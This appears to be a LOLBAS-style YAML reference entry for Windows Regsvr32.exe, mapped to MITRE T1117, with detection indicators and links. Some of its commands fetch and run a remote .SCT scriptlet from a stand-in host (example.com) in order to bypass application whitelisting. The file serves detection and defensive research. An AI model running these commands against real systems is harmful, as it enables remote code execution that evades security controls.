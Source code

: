 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL bypass
    Privileges: User
    MitreID: T1117
    MitreLink: https://attack.mitre.org/wiki/Technique/T1117
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL bypass
    Privileges: User
    MitreID: T1117
    MitreLink: https://attack.mitre.org/wiki/Technique/T1117
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1117
    MitreLink: https://attack.mitre.org/wiki/Technique/T1117
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1117
    MitreLink: https://attack.mitre.org/wiki/Technique/T1117
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Code_Sample:
  - Code:
Detection:
  - IOC: regsvr32.exe getting files from Internet
  - IOC: regsvr32.exe executing scriptlet files
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
---
```

